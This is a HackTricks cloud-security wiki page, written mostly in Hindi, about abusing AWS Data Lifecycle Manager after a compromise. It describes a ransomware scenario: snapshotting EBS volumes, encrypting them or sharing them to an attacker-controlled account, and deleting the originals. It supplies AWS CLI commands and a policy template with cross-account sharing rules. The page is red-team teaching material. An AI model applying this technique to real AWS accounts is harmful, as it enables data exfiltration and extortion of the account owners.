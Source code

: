 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

एक रैनसमवेयर हमला तब किया जा सकता है जब जितने संभव हो सके EBS वॉल्यूम को एन्क्रिप्ट किया जाए और फिर वर्तमान EC2 इंस्टेंस, EBS वॉल्यूम और स्नैपशॉट को मिटा दिया जाए। इस दुर्भावनापूर्ण गतिविधि को स्वचालित करने के लिए, कोई Amazon DLM का उपयोग कर सकता है, स्नैपशॉट को दूसरे AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करके और एन्क्रिप्टेड स्नैपशॉट को एक अलग खाते में स्थानांतरित करके। वैकल्पिक रूप से, वे बिना एन्क्रिप्शन के स्नैपशॉट को एक ऐसे खाते में स्थानांतरित कर सकते हैं जिसे वे प्रबंधित करते हैं और फिर वहां उन्हें एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम या स्नैपशॉट को सीधे एन्क्रिप्ट करना सीधा नहीं है, लेकिन एक नए वॉल्यूम या स्नैपशॉट बनाकर ऐसा करना संभव है।

सबसे पहले, कोई वॉल्यूम के बारे में जानकारी इकट्ठा करने के लिए एक कमांड का उपयोग करेगा, जैसे कि इंस्टेंस ID, वॉल्यूम ID, एन्क्रिप्शन स्थिति, अटैचमेंट स्थिति, और वॉल्यूम प्रकार।

`aws ec2 describe-volumes`

दूसरे, कोई जीवनचक्र नीति बनाएगा। यह कमांड DLM API का उपयोग करके एक जीवनचक्र नीति स्थापित करता है जो निर्दिष्ट वॉल्यूम के दैनिक स्नैपशॉट को एक निर्धारित समय पर स्वचालित रूप से लेता है। यह स्नैपशॉट पर विशिष्ट टैग भी लागू करता है और वॉल्यूम से स्नैपशॉट पर टैग की प्रतिलिपि बनाता है। policyDetails.json फ़ाइल में जीवनचक्र नीति के विवरण शामिल होते हैं, जैसे कि लक्षित टैग, कार्यक्रम, एन्क्रिप्शन के लिए वैकल्पिक KMS कुंजी का ARN, और स्नैपशॉट साझा करने के लिए लक्षित खाता, जिसे पीड़ित के CloudTrail लॉग में रिकॉर्ड किया जाएगा।
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
नीति दस्तावेज़ के लिए एक टेम्पलेट यहाँ देखा जा सकता है:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
